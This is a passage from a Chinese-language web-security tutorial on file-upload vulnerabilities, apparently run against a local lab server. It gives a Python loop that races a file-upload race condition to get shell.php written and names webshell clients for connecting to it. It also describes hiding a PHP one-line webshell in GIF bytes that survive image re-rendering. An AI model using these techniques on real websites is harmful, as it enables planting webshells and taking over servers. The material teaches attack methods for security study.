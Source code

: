 ![](upload/6.png)

然后使用脚本不断地访问文件上传的地址，脚本如下：
```
import requests
url = "http://127.0.0.1/upload/uploads/pl6.php"
while True:
    html = requests.get(url)
    if html.status_code == 200:  #判断shell.php是否写入成功
        print("OK")
        break

```

等到脚本返回200状态码则说明pl6.php执行成功并生成了shell.php，接下来使用蚁剑或者菜刀连接既可。
![](upload/7.png)


 
#### 2.2.6 二次渲染
文件上传二次渲染漏洞是指在文件上传功能中，服务器对上传的图片进行了**二次处理**（如格式、尺寸等），并且在处理完成后，将生成的新图片放置到网站对应的标签上显示。

绕过方式分为三种：**GIF绕过、PNG绕过、JPG绕过**  

1、GIF绕过二次渲染的方法，就是通过对比上传前和上传后的两个文件，如果说哪个位置，它的上传前和上传后的没有变，我们就把php一句话代码插入到这个位置。
